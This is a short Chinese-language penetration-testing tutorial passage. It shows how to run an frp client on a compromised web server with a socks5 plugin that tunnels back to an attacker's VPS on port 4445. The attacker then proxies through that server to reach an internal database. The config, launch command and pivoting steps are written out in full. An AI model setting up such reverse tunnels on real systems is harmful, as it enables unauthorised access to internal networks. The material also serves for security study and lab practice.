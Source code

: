 

### 客户端

web服务器上起一个frp客户端

配置frpc.ini：

```
[common]
server_addr = vps-ip
server_port = 7000
token = shadowtest #密码
	
[vps]
type = tcp
plugin = socks5
remote_port = 4445
use_encryption = true #是否加密
```

如上配置将web服务器的socks流量映射到vps的4445端口。web服务器成了跳板机器，打通了黑客与数据库的隧道。

web服务器执行

```
./frpc -c ./frpc.ini
```



黑客攻击机本地配置代理

`vps-ip:4445`

在黑客的机器上通过输入数据库的内网地址，成功访问到了数据库的http服务。

<img src="pictures/image-20201022100934029.png" alt="image-20201022100934029" style="zoom: 33%;" /> 
